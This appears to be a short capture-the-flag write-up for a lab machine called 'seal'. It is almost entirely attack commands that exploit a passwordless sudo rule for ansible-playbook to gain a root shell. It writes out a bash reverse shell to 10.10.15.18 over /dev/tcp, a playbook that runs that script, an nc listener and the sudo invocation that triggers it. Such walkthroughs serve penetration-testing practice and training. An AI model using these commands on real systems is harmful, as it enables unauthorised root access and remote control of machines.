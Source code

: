 # Shellcode

## Luis sudo privileges

```bash
luis@seal:/tmp$ sudo -l
Matching Defaults entries for luis on seal:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User luis may run the following commands on seal:
    (ALL) NOPASSWD: /usr/bin/ansible-playbook *
```


1. Saved into /tmp/pwn/rev.sh

```bash
#!/bin/bash

bash -i >& /dev/tcp/10.10.15.18/9001 0>&1
```

2. Saved into /tmp/run.yml

```yaml
- hosts: localhost
  tasks:
  - name: Get Shell
    command: /tmp/pwn/rev.sh
```

3. Start nc listener

```bash
nc -nvlp 9001
```

4. Execute ansible-playbook

```bash
luis@seal:/tmp$ sudo /usr/bin/ansible-playbook run.yml
``` 